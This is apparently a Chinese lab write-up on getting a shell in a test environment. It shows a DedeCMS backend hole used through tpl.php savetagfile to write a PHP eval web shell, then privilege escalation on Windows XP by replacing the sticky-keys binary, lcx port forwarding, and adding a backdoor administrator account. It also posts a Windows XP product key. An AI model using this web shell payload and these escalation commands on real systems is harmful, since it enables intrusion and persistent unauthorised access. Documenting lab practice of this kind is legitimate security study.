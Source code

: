 ```yaml
---
description: 今天看西普直播发现的新套路，决定搭个环境实际操作一波
---
```


# 粘滞键弹shell提权

## 0x00 测试环境

* win xp pro sp3,
* wamp2.2
* dedecms V57\_UTF8\_SP2

## 0x01 后台getshell

[参照的是这个大佬的博客](https://www.cesafe.com/2621.html/2/)

{% embed url="https://www.cesafe.com/2621.html/2/" %}

利用的是dede可以注册全局变量的特性

先访问`dede/tpl.php?action=upload`获取token，然后访问dede/tpl.php?filename=&lt;木马文件名&gt;.lib.php&action=savetagfile&content=&lt;?php eval\($\_POST\['cmd'\]\); ?&gt;&token=&lt;刚才获取的你的token值&gt;

然后文件就写进去了

![&#x83DC;&#x5200;&#x8FDE;&#x63A5;](.gitbook/assets/image%20%2810%29.png)

## 0x02 提权

这个用户是我临时建的一个普通用户，没有添加用户的权限

 net user admin /active:yes

![](.gitbook/assets/image%20%282%29.png)

 粘滞键：c:\windows\system32\sethc.exe，把它用cmd替换

`tasklist /svc`查看所有安装的服务，这里是没有权限的。。。

扫出21 ftp，看西普的视频里演示的是有一种叫Zillaserver的ftp采用只能本地连接，然后这个ftp是在安装路径有储存用户名密码的配置文件的，然后lcx端口转发，外面就可以连接了，然后就可以操作数据库了

有一个问题就是远程的时候要先填好用户名 密码直接跳过就好，就进入远程界面了



![](.gitbook/assets/image%20%2814%29.png)

这个时候就有创建用户的权限了

接下来创建用户

 net user admin lovechina /add

 net localgroup Administrators admin /add  

就这样吧



## 总结：

感觉这个实验做的还是挺水的，因为环境问题重新搭了好几个服务器，一开始用哪个server2008 iis，但是后来发现server2008上的sethc.exe文件即使有管理员权限也修改不了，后来又转了xp专业版，才把问题全部解决了

而且这个漏洞感觉最好是拿到ftp对system32文件夹操作的权限，不然的话基本其他权限是没本法操作这个文件夹的

xp查看当前用户 `echo %username%`,如果你是system权限的话就会显示`%username%` 其余权限会直接显示用户名

附：itellyou上的xp pro激活码http://blog.51cto.com/myocode/649076，我用的是这个一次成功 QC986-27D34-6M3TY-JJXP9-TBGMD、

附xp基础命令合集：

{% embed url="https://itpro723.wordpress.com/2009/10/14/xp%E4%B8%8B%E5%8C%85%E6%8B%AC%E5%90%84%E9%A0%85%E6%9C%80%E5%AE%8C%E6%95%B4%E6%9C%80%E9%BD%8A%E5%85%A8%E7%9A%84dos%E5%91%BD%E4%BB%A4/" %}

